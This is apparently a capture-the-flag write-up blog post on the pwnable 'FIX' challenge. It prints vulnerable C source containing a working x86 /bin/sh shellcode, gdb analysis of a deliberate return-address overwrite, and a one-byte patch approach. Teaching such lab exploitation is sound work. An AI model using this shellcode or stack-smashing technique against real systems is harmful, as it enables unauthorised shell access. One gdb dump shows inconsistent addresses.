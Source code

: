 ```yaml
---
layout: post
title:  "Pwnable: FIX Write-up"
description: Write-up of "FIX" problem
img: no image
date: 2016-03-07  +0200
---
```


Below is the source code of vulnerable binary file.  

<!--
```c
```
-->

{% highlight c %}
#include <stdio.h>

// 23byte shellcode from  
// http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
                "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
        // a buffer we are about to exploit!
        char buf[20];

        // prepare shellcode on executable stack!
        strcpy(buf, sc);

        // overwrite return address!
        *(int*)(buf+32) = buf;

        printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

        unsigned int index=0;
        printf("Tell me the byte index to be fixed : ");
        scanf("%d", &index);
        fflush(stdin);

        if(index > 22)  return 0;

        int fix=0;
        printf("Tell me the value to be patched : ");
        scanf("%d", &fix);

        // patching my shellcode
        sc[index] = fix;

        // this should work..
        shellcode();
        return 0;
}

{% endhighlight %}

If you analyze binary file, you could figure out that we could modify 1 byte of shellcode, and we must leverage this vulnerability to obtain privileged shell.  
The shellcode is embedded in the binary and I have checked whether it is valid shellcode as below:  

> xor    %eax,%eax  
> push   %eax  
> push   $0x68732f2f  
> push   $0x6e69622f  
> mov    %esp,%ebx  
> push   %eax  
> push   %ebx  
> mov    %esp,%ecx  
> mov    $0xb,%al  
> int    $0x80  

Indeed it is valid shellcoded.  
To briefly explain meaning of "push $0x68732f2f" and "push $0x6e69622f".  
This is very basic technique to create shellcode. It embeds necessary strings in the exploit code as follow:  

> push '/' ; is push 0x2f  
> push 'b' ; is push 0x62  
> push 'i' ; is push 0x69  
> push 'n' ; is push 0x6e  
> push '/' ; is push 0x2f  
> push '/' ; is push 0x2f  
> push 's' ; is push 0x73  
> push 'h' ; is push 0x68  

However, even if it is valid shellcode, If you execute the program, it crashes!!!  
You need to analyze why this is happening..  
I started analyzing using gdb.  
Let's disas shellcode function.  

> (gdb) disas shellcode  
> Dump of assembler code for function shellcode:  
> 0x080484e4 <+0>: push ebp  
> 0x080484e5 <+1>: mov ebp,esp  
> 0x080484e7 <+3>: sub esp,0x38  
> 0x080484ea <+6>: mov DWORD PTR [esp+0x4],0x804a024  
> 0x080484f2 <+14>: lea eax,[ebp-0x1c]  
> 0x080484f5 <+17>: mov DWORD PTR [esp],eax  
> 0x080484f8 <+20>: call 0x80483e0 <strcpy@plt>  
> 0x080484fd <+25>: lea eax,[ebp-0x1c]  
> 0x08048500 <+28>: lea edx,[eax+0x20]  
> 0x08048503 <+31>: lea eax,[ebp-0x1c]  
> 0x08048506 <+34>: mov DWORD PTR [edx],eax  
> 0x08048508 <+36>: mov DWORD PTR [esp],0x80486a0  
> 0x0804850f <+43>: call 0x80483f0 <puts@plt>  
> 0x08048514 <+48>: leave  
> 0x08048515 <+49>: ret  
> End of assembler dump.  

break at shellcode+6 and evaluate stack.

(gdb) x/10i *shellcode  

0x80484e4 <shellcode>: push ebp  
  
0x80484e5 <shellcode+1>: mov ebp,esp  

0x80484e7 <shellcode+3>: sub esp,0x38  

=> 0x80484ea <shellcode+6>: mov DWORD PTR [esp+0x4],0x804a024  

0x80484f2 <shellcode+14>: lea eax,[ebp-0x1c]  

0x80484f5 <shellcode+17>: mov DWORD PTR [esp],eax  

0x80484f8 <shellcode+20>: call 0x80483e0 <strcpy@plt>  

0x80484fd <shellcode+25>: lea eax,[ebp-0x1c]  

0x8048500 <shellcode+28>: lea edx,[eax+0x20]  

0x8048503 <shellcode+31>: lea eax,[ebp-0x1c]  


> (gdb) x/10wx $ebp  
> 0xfff7bed8: 0xfff7bf08 **(old ebp)** 0x080485c7 **(ret)** 0x0804874e 0xfff7bef8  
> 0xfff7bee8: 0xf772cff4 0xf75bd1a5 0xf774f660 0x00000000  
> 0xfff7bef8: 0x000000c9 0x0000000d  

You can see that return address is at 0xfff7bedc. If we could overwrite it, we could execute our shellcode.  
If you further analyze the binary code, you can find some interesting stuff is going on.

> => 0x80484fd <shellcode+25>: lea eax,[ebp-0x1c]  
> 0x8048500 <shellcode+28>: lea edx,[eax+0x20]  
> 0x8048503 <shellcode+31>: lea eax,[ebp-0x1c]  
> 0x8048506 <shellcode+34>: mov DWORD PTR [edx],eax  

> (gdb) x/10bx $ebp-0x1c --> **our shellcode is here**  
> 0xfff7bebc: 0x31 0xc0 0x50 0x68 0x2f 0x2f 0x73 0x68  
> 0xfff7bec4: 0x68 0x2f  
> (gdb) x/wx $eax+0x20 --> **this refers ret**  
> 0xfff7bedc: 0x080485c7  

This means, below instruction will overwrite ret address to our shellcode.  
awesom!    
> 0x8048506 <shellcode+34>:    mov    DWORD PTR [edx],eax   

After above instruction, ret is changed to shellcode..  
(gdb) x/10i 0xfff7bebc  

=>0x804a024 <sc>: xor eax,eax  
  
0x804a026 <sc+2>: push eax  

0x804a027 <sc+3>: push 0x68732f2f  

0x804a02c <sc+8>: push 0x6e69622f  

0x804a031 <sc+13>: mov ebx,esp  

0x804a033 <sc+15>: push eax  

0x804a034 <sc+16>: push ebx  

0x804a035 <sc+17>: mov ecx,esp  

0x804a037 <sc+19>: mov al,0xb  

0x804a039 <sc+21>: int 0x80  

so far so good. Then why the program crashes?  
The program crashes after executing below instruction.  
> => 0x804a02c <sc+8>: push 0x6e69622f

Very interesting..  
The reason program crashes is that eip is increased as the instruction executed, whereas esp decreases as push instruction is executed. So, there is 5 push instructions in the shellcode..  
{% highlight markdown %}
> On the second push instruction, because esp is pointing to eip memory region, it overwrites eip and therefore, program crashes with illegal instruction.  
{% endhighlight %}

In order to solve this problem, you need to leverage "leave" instruction to change esp value so that it does not overwrite eip.
0xc9 is leave instruction, and since we could modify one byte, we can change insert it into our shellcode
Leave instruction changes esp value to ebp value.

leave instruction is equavalent to mov esp, ebp and pop ebp.  

; enter  
push ebp  
mov ebp, esp  

; leave  
mov esp, ebp  
pop ebp  

